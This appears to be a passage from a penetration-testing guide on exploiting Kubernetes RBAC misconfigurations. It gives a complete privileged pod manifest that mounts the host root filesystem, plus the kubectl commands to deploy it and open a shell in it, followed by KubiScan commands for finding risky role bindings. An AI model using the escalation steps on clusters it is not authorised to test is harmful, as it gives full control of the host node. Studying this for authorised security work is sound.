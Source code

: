 ### Exploiting RBAC Misconfigurations

Kubernetes Role-Based Access Control (RBAC) misconfigurations are common and can lead to privilege escalation:

```bash
# Check current permissions
kubectl auth can-i --list

# If you have permissions to create/use pods, you can escalate privileges:
# Create a privileged pod mounting the host filesystem
cat << EOF > privpod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: privpod
spec:
  hostPID: true
  hostIPC: true
  hostNetwork: true
  containers:
  - name: privpod
    image: alpine
    command: ["/bin/sh", "-c", "sleep 1000"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: hostfs
      mountPath: /host
  volumes:
  - name: hostfs
    hostPath:
      path: /
EOF

kubectl apply -f privpod.yaml
kubectl exec -it privpod -- /bin/sh
```

**Automated RBAC Assessment with KubiScan:**

```bash
# Clone KubiScan
git clone https://github.com/cyberark/KubiScan
cd KubiScan
pip install -r requirements.txt

# Find risky roles/rolebindings
python3 KubiScan.py --risky-roles
python3 KubiScan.py --risky-rolebindings

# Find potential privilege escalation paths
python3 KubiScan.py --can-escalate
```
